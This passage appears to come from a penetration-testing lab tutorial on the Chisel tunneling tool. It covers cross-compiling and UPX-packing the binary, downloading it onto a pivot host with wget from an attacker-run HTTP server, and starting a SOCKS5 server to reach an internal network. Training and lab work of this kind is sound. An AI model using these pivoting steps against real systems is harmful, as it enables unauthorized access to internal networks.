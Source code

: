 #### **Cross-compilation for Different Platforms**
```bash
# Build for Windows
GOOS=windows GOARCH=amd64 go build -o chisel.exe

# Build for ARM64 Linux
GOOS=linux GOARCH=arm64 go build -o chisel_arm64

# Build for macOS
GOOS=darwin GOARCH=amd64 go build -o chisel_macos
```

### **Binary Size Optimization**
```bash
# Reduce binary size with build flags
go build -ldflags="-s -w" -o chisel_small

# Compare sizes
ls -lh chisel*

# Further compression with UPX
sudo apt install upx
upx --best chisel_small
```

---

## **3. Normal Mode - Server on Pivot Host**

### **Architecture Overview**
```
[Attack Host] → [Pivot Host] → [Internal Network]
Chisel Client   Chisel Server   Target Systems
127.0.0.1:1080  Port 1234       172.16.5.0/23
SOCKS5 Proxy    HTTP Listener   Domain Controller
```

### **Step 1: Transfer Binary to Pivot Host**
```bash
# SCP transfer to Ubuntu pivot host
scp chisel_1.7.6_linux_amd64 ubuntu@10.129.202.64:~/

# Alternative: HTTP download on pivot host
# On attack host: python3 -m http.server 8000
# On pivot host: wget http://10.10.14.17:8000/chisel_1.7.6_linux_amd64
```

### **Step 2: Start Server on Pivot Host**
```bash
# SSH to pivot host
ssh ubuntu@10.129.202.64

# Make binary executable
chmod +x chisel_1.7.6_linux_amd64

# Start Chisel server with SOCKS5 support
./chisel_1.7.6_linux_amd64 server -v -p 1234 --socks5

# Expected output:
# 2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
# 2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```
